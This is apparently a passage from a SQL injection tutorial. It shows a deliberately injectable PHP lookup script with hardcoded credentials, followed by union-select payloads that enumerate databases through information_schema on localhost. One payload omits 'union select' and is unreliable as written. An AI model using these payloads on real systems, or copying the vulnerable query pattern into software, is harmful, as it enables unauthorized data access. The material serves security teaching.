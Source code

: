 ```php
<?php

	$server = "localhost";
	$username = "loki";
	$password = "loki123";
	$database = "SampleDB";

	# Connection to the database
	$conn = new mysqli($server, $username, $password, $database);

	$id = $_GET['id'];

	$data = mysqli_query($conn, "select username from users where id = '$id'") or die(mysqli_error($conn));

	$response = mysqli_fetch_array($data);

	echo $response['username'];
	
?>
```

With this script we can obtain the username corresponding to the queried id:

```php
http://localhost/searchUsers.php?id=1
```

Now, we can start the injections. First of all, we can check if the server returns an error when we try to insert a ' after the id:

```php
http://localhost/searchUsers.php?id=1'
```

If prints an error message we can try to inject some payloads.

First, we will use *union select* for inserting a new line that includes '0' in the example below inside into a existing column:

```php
http://localhost/searchUsers.php?id=123456' union select 0-- -
```

In previous example there is only one column, but in the case that there were more columns (for example 3) we need to use the *union select* like this:

```php
http://localhost/searchUsers.php?id=123456' union select 0,0,0-- -
```

In pevious examples we are not using an existing id, this is important because we need to use a *non existing id*  for viewing the information that we have introduced, in this case, '0'. This is the first step, now we can try the following stuff:

```php
# This will give us the database in use name
http://localhost/searchUsers.php?id=123456' union select database()-- -

# This will give us all existing databases
http://localhost/searchUsers.php?id=123456' schema_name from information_schema.schemata-- -

# The previous statement will not always return us the information, in that case we need to limit it
http://localhost/searchUsers.php?id=123456' union select schema_name from information_schema.schemata limit 0,1-- - # Limited to one result, getting the first value
http://localhost/searchUsers.php?id=123456' union select schema_name from information_schema.schemata limit 1,1-- - # Limited to one result, getting the second value
http://localhost/searchUsers.php?id=123456' union select schema_name from information_schema.schemata limit 2,1-- - # Limited to one result, getting the third value
```